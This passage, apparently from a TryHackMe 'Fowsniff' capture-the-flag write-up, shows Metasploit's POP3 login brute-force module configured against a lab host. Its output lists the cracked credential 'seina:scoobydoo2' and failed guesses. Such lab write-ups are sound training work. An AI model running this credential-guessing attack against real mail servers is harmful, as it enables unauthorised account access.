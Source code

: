 ```
   Name              Current Setting                                 Required  Description
   ----              ---------------                                 --------  -----------
   ANONYMOUS_LOGIN   false                                           yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                           no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                            no        Skip existing credentials stored in the current database (Accepted: none, user, user&r
                                                                               ealm)
   PASSWORD                                                          no        A specific password to authenticate with
   PASS_FILE         /home/b33tl3/Desktop/tryhackme/fowsniffCTF/pas  no        The file that contains a list of probable passwords.
                     swords.txt
   RHOSTS            10.10.43.65                                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                                                               -metasploit.html
   RPORT             110                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                           yes       Stop guessing when a credential works for a host
   THREADS           1                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                          no        A specific username to authenticate as
   USERPASS_FILE                                                     no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                           no        Try the username as the password for all users
   USER_FILE         /home/b33tl3/Desktop/tryhackme/fowsniffCTF/use  no        The file that contains a list of probable users accounts.
                     rs.txt
   VERBOSE           true                                            yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.
```
After running, I got a success log in. <br>
```
msf6 auxiliary(scanner/pop3/pop3_login) > run
[+] 10.10.43.65:110       - 10.10.43.65:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[!] 10.10.43.65:110       - No active DB -- Credential data will not be saved!
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:scoobydoo2', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:orlando12', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:apples01', '-ERR [AUTH] Authentication failed.'
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:skyler22', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:mailcall', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:07011972', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:carp4ever', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'parede:bilbo101', ''
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'tegel:scoobydoo2', ''
```